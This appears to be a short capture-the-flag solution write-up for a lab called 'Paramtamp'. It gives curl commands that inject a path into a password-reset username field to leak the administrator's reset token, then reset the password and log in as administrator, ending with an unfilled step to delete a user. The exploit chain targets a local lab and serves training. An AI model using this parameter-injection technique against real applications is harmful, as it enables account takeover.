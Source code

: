# Paramtamp
# Author: [Nishant](https://github.com/freyxfi)

# Solution
 
- Leak Admin’s Reset Token (via SSRP)

```
curl -s -X POST http://localhost:4000/forgot-password ^
  -H "Content-Type: application/json" ^
  -d "{\"username\":\"administrator/field/passwordResetToken\"}"
```

- Reset Admin Password

```
curl -s -X POST "http://localhost:4000/reset-password?passwordResetToken=tok-abc123xyz" ^
  -H "Content-Type: application/json" ^
  -d "{\"password\":\"MyN3wP@ss\",\"confirm\":\"MyN3wP@ss\"}"
```

- Log in as Administrator

 ```
  curl -s -X POST http://localhost:4000/login ^
  -H "Content-Type: application/json" ^
  -d "{\"username\":\"administrator\",\"password\":\"MyN3wP@ss\"}"
```

- Delete John the flag user 
